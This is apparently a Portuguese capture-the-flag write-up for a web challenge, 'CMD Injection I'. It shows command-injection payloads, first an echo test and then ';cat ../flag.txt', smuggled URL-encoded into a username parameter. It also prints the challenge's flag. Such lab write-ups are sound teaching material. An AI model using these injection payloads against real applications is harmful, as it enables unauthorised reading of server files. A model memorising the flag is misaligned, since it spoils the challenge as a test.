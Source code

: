 # **CTF**

## _CMD Injection I_

## Informações

| **Category:** | **Points:** |
| ------------- | ----------- |
| Web           | 500         |

**Descrição:**

> Flag em ../flag.txt.

> http://34.95.239.56:9989/

## Solução

Observando o código vemos que não há nenhum tipo de filtro para o usuário. Podemos injetar comando através da variavel usuario usando ";" para separar cada comando. Fiz um teste com `echo bom dia`. O payload ficou assim `';echo 'bom dia`

Passando para urlencode na url ficamos com:

```
34.95.239.56:9989/?username=%27%3Becho%20%27bom%20dia
```

#### Resposta do servidor:

![](https://i.imgur.com/5GP8N2J.png)

Modificando o payload para capturar a flag podemos usar o comando cat ficando `';cat ../flag.txt;echo 'bom dia`. Usei o echo no final para fechar com as aspas no final do código.

#### Com isso o payload final:

`http://34.95.239.56:9989/?username=%27%3Bcat%20..%2Fflag.txt%3Becho%20%27bom%20dia`

![](https://i.imgur.com/ZtmVDOy.png)

### Flag

> CTF-BR{CMD_iNjEct1ON_B4$ic@}
